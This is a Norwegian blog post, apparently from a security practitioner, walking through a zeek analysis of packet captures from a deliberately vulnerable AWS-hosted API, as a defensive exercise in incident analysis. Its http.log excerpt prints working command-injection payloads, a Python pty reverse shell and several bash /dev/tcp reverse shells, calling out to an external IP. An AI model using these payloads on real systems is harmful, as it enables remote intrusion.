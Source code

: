```yaml
---
tittel: Nettverksanalyse i skyen
beskrivelse: Hvordan kan vi oppdage og analysere nettverkshendelser i skyen?
tags: 
 - post
 - front
date: 2023-03-05
bilde: /img/nettverksrot.jpg
layout: layouts/post.njk
---
```


I denne posten tester vi nettverksbasert analyse av en skadevareinfeksjon i 
en VM som kjører på AWS. Vi antar at følgende har skjedd. En angriper har på 
mystisk vis skaffet seg tilganng til API-serveren vår kjørt diverse kommandoer der. 
Vi har kjørt en pakkedump 
av trafikken på VM-en, og bruker zeek til å analysere hva som foregår. 

VM-en kjører et API for å generere Chuck Norris-vitser. Denne app'en har en 
injisert sårbarhet som gir angriperen et webshell. Denne demo-app'en kan du 
finne her: [github.com/hakdo/vulnerablenorris](https://github.com/hakdo/vulnerablenorris). Vi bruker tcpdump for å logge nettverksaktivitet på den 
infiserte EC2-instannsen.

## Nedlasting og analyse av datadump
Vi genererer datadumpen ved følgende kommando: 

```
tcpdump -i eth0 -w investigation.pcap
```

Etterpå laster vi ned fila. Dette kan vi for eksempel bruke `scp` til, 
men jeg foretrekker å ganske enkelt kjøre en webserver og laste ned fila via 
nettleseren. Dette oppnår vi enkelt ved hjelp av Python: 

```
sudo python3 -m http.server 80
```
Dette er selvsagt en farlig variant som kjører som root, men det er kun for 
å hente ned fila uten å endre brannmurregler (vi tillater webtrafikk). 

For å få mening ut av datadumpen bruker vi [zeek](https://docs.zeek.org/en/current/quickstart.html#zeek-as-a-command-line-utility). Vi genererer loggfiler basert 
på pcap'en. 

```
2023-03-05_investigation:$ mv ~/Downloads/investigation.pcap .
2023-03-05_investigation:$ zeek -Cr investigation.pcap 
2023-03-05_investigation:$ ls
conn.log		http.log		ssl.log
dhcp.log		investigation.pcap	x509.log
dns.log			ntp.log
files.log		packet_filter.log
```

Første stopp er `conn.log`. Denne fila viser alle nettverkstilkoblingene. 
Vi skal undersøke et par antakelser om sikkerhetsbrudd her: 

- Vi antar at angriperen har direkte fjerntilgang, og dermed er tilkoblet for lengre perioder i gaangen. Vi vil derfor se etter langvarige tcp-sesjoner. 
- Vi har en mistanke om at en sårbarhet i applikasjonen er blitt utnyttet. Vi ønsker derfor å se på http-trafikken. 
- Vi lurer på om angriperen har lastet ned flere verktøy. vi ønnsker derfor også å sjekke DNS-loggen for mistennkelige forespørsler. 

### Langvarige sesjoner
Første stopp er conn.log, og vi bruker verktøyet `zeek-cut` til å 
hente ut det vi er mest interesserte i. Følgende kommando henter ut 
de 10 tilkoblingene med lengst varighet. 

```
zeek-cut -d ts id.orig_h id.orig_p id.resp_h id.resp_p service duration < conn.log | sort -n -r -k 7 |head -n10
```
Resutlatet er som følger: 
```
2023-03-05T21:26:23+0100	18.202.216.51	29442	172.31.6.55	22	-	1386.523980
2023-03-05T21:26:29+0100	18.202.216.51	63325	172.31.6.55	22	-	1369.115168
2023-03-05T21:37:12+0100	212.xxx.xxx.xxx	52300	172.31.6.55	3000	http	370.889356
2023-03-05T21:38:41+0100	172.31.6.55	53000	35.217.6.162	3000	-	281.742295
2023-03-05T21:38:43+0100	212.xxx.xxx.xxx	52310	172.31.6.55	3000	http	279.118042
2023-03-05T21:38:44+0100	212.xxx.xxx.xxx	52311	172.31.6.55	3000	http	279.062357
2023-03-05T21:36:03+0100	212.xxx.xxx.xxx	52297	172.31.6.55	3000	http	156.742007
2023-03-05T21:34:13+0100	212.xxx.xxx.xxx	52290	172.31.6.55	3000	http	136.169114
2023-03-05T21:43:39+0100	212.xxx.xxx.xxx	52350	172.31.6.55	3000	http	70.755425
2023-03-05T21:38:50+0100	172.31.6.55	3000	212.xxx.xxx.xxx	52297	-	68.352013
```
Her er 172.31.6.55 VM-ens interne IP-adresse. 212.xxx... er fra meg selv. 18.202... er fra AWS 
og er min egen SSH-tilkoblinng. Den interessante her er 35.217.6.162. Denne har den interne ip-en 
som opprinnelsesadresse, og trafikken er _utgående_ til 35.217.6.162, mot port 3000. 

Dette er uvanlig, og vi ser også at det ikke er gitt noen "service" for denne trafikken. 

Vi kan filtrere alle tilkoblinger til denne ip-adressen for å få bedre oversikt. Vi ser at vi har 4 
utgående forbindelser til denne ip-en: 

```
2023-03-05_investigation:$ zeek-cut -d ts id.orig_h id.orig_p id.resp_h id.resp_p service duration < conn.log | grep 35.217.6.162
2023-03-05T21:38:41+0100	172.31.6.55	53000	35.217.6.162	3000	-	281.742295
2023-03-05T21:43:40+0100	172.31.6.55	43778	35.217.6.162	3000	-	65.190718
2023-03-05T21:44:57+0100	172.31.6.55	33450	35.217.6.162	3000	-	61.970277
2023-03-05T21:47:33+0100	172.31.6.55	39858	35.217.6.162	3000	-	60.235926
```
Det kan være interessant å se hvor denne ip-en fører uten å kontakte den direkte. Et raskt whois-søk 
viser at dette er en IP fra Google Cloud. 

> Denne loggen gir oss en enkel IoC - en ip-adresse. Vi kan selvsagt blokkere denne i brannmuren, men verdien er ganske begrenset siden det er veldig enkelt for angriperen å bytte til en ny IP, forutsatt at angriperen har en måte å få tilbake kontroll over serveren. 

### http-trafikk
La oss se om vi kan finne mer trafikk relatert til denne indikatoren i http.log. Denne loggen 
inneholder http-trafikk som ikke er kryptert. Vi kan med andre ord lese hele 
forespørselen som er sendt. Igjen er zeek-cut verktøyet vi trenger: 

```
2023-03-05_investigation:$ zeek-cut -d ts id.orig_h method uri< http.log | grep 35.217.6
2023-03-05T21:37:13+0100	212.xxx.xxx.xxx	GET	/dangerzone?category=fashion&&export RHOST="35.217.6.162";export RPORT=3000;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
2023-03-05T21:38:45+0100	212.xxx.xxx.xxx	GET	/dangerzone?category=fashion&&sh -i >& /dev/tcp/35.217.6.162/3000 0>&1
2023-03-05T21:42:56+0100	212.xxx.xxx.xxx	GET	/dangerzone?category=fashion&&sh -i >& /dev/tcp/35.217.6.162/3000 0>&1
2023-03-05T21:43:39+0100	212.xxx.xxx.xxx	GET	/dangerzone?category=fashion&&sh -i >& /dev/tcp/35.217.6.162/3000 0>&1
2023-03-05T21:44:57+0100	212.xxx.xxx.xxx	GET	/dangerzone?category=fashion&&sh -i >& /dev/tcp/35.217.6.162/3000 0>&1
2023-03-05T21:48:39+0100	212.xxx.xxx.xxx	GET	/dangerzone?category=fashion&&sh -i >& /dev/tcp/35.217.6.162/3000 0>&1
2023-03-05T21:49:16+0100	212.xxx.xxx.xxx	GET	/dangerzone?category=fashion&&sh -i >& /dev/tcp/35.217.6.162/3000 0>&1
2023-03-05T21:47:33+0100	212.xxx.xxx.xxx	GET	/dangerzone?category=fashion&&sh -i >& /dev/tcp/35.217.6.162/3000 0>&1
```
Her er det en del interessant! Vi ser at angriperen kommer fra IP-en 212.xxx.... (altså, min IP...). Vi ser også at dette er 
et forsøk på å sende et bash-shell til 35.217.6.162 på port 3000. Dette er altså et shell som sendes til 
angriperens maskin i Google Cloud! At det dreiser seg om et "reverse shell" bekreftes også av et enkelt Google-søk på 
selve angrepslasten (payload) - `sh -i >& /dev/tcp/35.217.6.162/3000 0>&1`.

> Denne loggen gir oss mye nyttig info til å forsvare oss. Vi har her endepunktet som tillater kommandoinjeksjon. Dette endepunktet bør vi fjerne eller oppdatere raskest mulig. Dette vil fjerne sårbarheten som angriperen utnytter, og ha veldig høy verdi for den som forsvarer denne tjenesten.  

### Er det alltid DNS? 
Til slutt ser vi på DNS-tjeneren. DNS er nyttig på to måter her: 

1. Kan vi se om angriperen forsøker å laste ned flere hackerverktøy? 
2. Kan vi finne direkte tilkoblinger til IP-adresser, som ikke er knyttet til et DNS-oppslag? Dette er normalt sett mistenkelig. 

For den første, kan vi liste alla DNS-queries for domene-navnn (filtrerer bort arpa-adresser): 
```
zeek-cut query < dns.log |grep -v arpa|uniq
github.com
api.chucknorris.io
```
Disse to domenene er ikke særlig mistenkelige i sammenhengen. Hva så med direktetilkoblinger til IP-adresser som ikke finnes i 
DNS-responser? Da kan vi gjøre følgende: 

1. Finn alle tilkoblinger for utgående trafikk fra conn.log
2. For alle ip-adresser, sjekk om det finnes en DNS-forespørsel med denne IP-en i svarfeltet
3. Hvis det ikke finnes noen match, marker IP-adressen som mistenkelig

Som to eksempler kan vi list alle ip-ene vi har utgående trafikk mot. Vi oppdager 104.21.41.162, og 35.217.6.162. 

La oss først sjekke om den første finnes i et svar på en DNS-forspørsel: 
```
zeek-cut query answers < dns.log|grep 140.82.121.3
github.com	140.82.121.3
```
Dette er altså Github - ikke mistenkelig - mens 35.217.6.162 ikke gir noen treff i DNS. 

> Denne typen anomalideteksjon er ganske "støyete" og man vil typisk ha en del trafikk som går utenom DNS, for eksempel til metadata-endepunkter for skyleverandøren. Det vil typisk også være en del trafikk til interne ip-er i samme virtuelle nettverk. 

## Oppsummert
Nettverksanalyser er nyttige også for skytjenester. Normalt sett vil man enten bruke en nettverksbasert IDS direkte, eller 
hente ut pakker midlertidig ved hjelp av en tjeneste i skyleverandøren. For skempel har AWS mulighet til dette for et 
VPC-nettverk, og Azure gjør det mulig å lagre pcap-filer fra en "Network Watcher". 

Zeek er tiltenkt å bruke til sanntidsanalyser av nettverkstrafikk, hvor loggfilene som gennereres 
sendes til en SIEM, hvor man kan lage deteksjonsregler. Verktøyet er også veldig nyttig til å granske 
nettverkshendelser, og gjør relativt enkle analyser mye lettere å gjennomføre enn ved bruk av verktøy 
for mer direkte analyse av pakkedata, som Wireshark. 

Kort oppsummert er typisk analyseflyt: 
1. Sjekk conn.log for mistenkelige data. Langvarige sesjoner, IP-adresser fra uventede steder er en god start. 
2. Bruk http.log dersom det finnes ukrypterte data. Dette er fortsatt relativt vanlig for en del trusselaktører. 
3. Bruk DNS-loggen for å finne mistennkelige oppslag, og anomalier når sett opp mot conn.log. 
